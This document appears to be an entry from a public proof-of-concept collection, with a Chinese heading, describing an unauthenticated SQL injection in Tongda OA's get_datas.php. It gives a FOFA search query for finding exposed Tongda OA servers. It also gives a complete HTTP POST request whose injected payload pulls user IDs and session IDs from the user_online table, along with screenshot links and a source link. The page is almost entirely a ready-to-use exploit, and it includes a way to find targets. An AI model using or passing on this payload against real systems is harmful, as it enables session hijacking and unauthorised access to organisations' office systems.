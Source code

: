 ## 通达OA get_datas.php前台sql注入

##  fofa
```
app="TDXK-通达OA"
```

## POC
```
POST /general/reportshop/utils/get_datas.php HTTP/1.1
Host: {{HostName}}
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 2

USER_ID=OfficeTask&PASSWORD=&col=1,1&tab=5 where 1={`\='` 1} union (select uid,sid from user_online where 1\={`=` 1})-- '1**
```
![image](https://github.com/wy876/POC/assets/139549762/55ba1ee3-215b-4fd2-8c0c-0694a20f6bfd)

![image](https://github.com/wy876/POC/assets/139549762/3d0399a3-9fe9-46d9-b725-12acb84d422c)


## 漏洞来源
```
https://forum.butian.net/share/278
```
